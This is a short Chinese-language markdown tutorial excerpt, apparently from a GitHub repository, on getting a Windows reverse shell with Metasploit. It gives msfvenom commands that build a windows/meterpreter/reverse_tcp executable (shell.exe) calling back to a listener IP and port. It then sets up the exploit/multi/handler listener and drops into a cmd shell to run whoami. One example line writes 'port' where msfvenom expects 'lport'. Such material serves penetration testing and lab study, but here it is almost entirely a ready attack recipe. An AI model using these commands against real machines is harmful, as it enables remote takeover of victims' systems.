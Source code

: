         ![](img/1.png)

  2. windos
     1. CLI下生成payload
        ```
        msfvenom -p windows/meterpreter/reverse_tcp lhost=[你的IP] lport=[端口] -f exe -o 要生成的文件名

       msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.91.129 port=4444 -f exe -o shell.exe
        ```
    2. 设置msf
       ```
        msf  >  use exploit/multi/handler
        msf  >  set payload windows/meterpreter/reverse_tcp #设置的payload要和生成的相同
        msf  >  set LHOST 自己IP
        msf  >  run

        执行以下shell命令在一个Meterpreter会话界面中使用cmd shell：
        shell
        whoami
       ```
        ![](img/2.png)
